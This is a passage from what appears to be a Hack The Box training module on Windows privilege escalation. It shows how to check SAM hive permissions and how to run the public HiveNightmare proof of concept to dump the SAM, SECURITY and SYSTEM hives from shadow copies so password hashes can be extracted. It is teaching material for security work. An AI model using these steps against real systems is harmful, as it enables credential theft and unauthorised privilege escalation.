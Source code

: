 Kernel Exploits

```cmd-session
C:\htb> icacls c:\Windows\System32\config\SAM

C:\Windows\System32\config\SAM BUILTIN\Administrators:(I)(F)
                               NT AUTHORITY\SYSTEM:(I)(F)
                               BUILTIN\Users:(I)(RX)
                               APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                               APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

Successful exploitation also requires the presence of one or more shadow copies. Most Windows 10 systems will have `System Protection` enabled by default which will create periodic backups, including the shadow copy necessary to leverage this flaw.

#### Performing Attack and Parsing Password Hashes

This [PoC](https://github.com/GossiTheDog/HiveNightmare) can be used to perform the attack, creating copies of the aforementioned registry hives:

Kernel Exploits

```powershell-session
PS C:\Users\htb-student\Desktop> .\HiveNightmare.exe

HiveNightmare v0.6 - dump registry hives as non-admin users

Specify maximum number of shadows to inspect with parameter if wanted, default is 15.

Running...

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

Success: SAM hive from 2021-08-07 written out to current working directory as SAM-2021-08-07

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY

Success: SECURITY hive from 2021-08-07 written out to current working directory as SECURITY-2021-08-07

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM

Success: SYSTEM hive from 2021-08-07 written out to current working directory as SYSTEM-2021-08-07


Assuming no errors above, you should be able to find hive dump files in current working directory.
```

These copies can then be transferred back to the attack host, where impacket-secretsdump is used to extract the hashes:
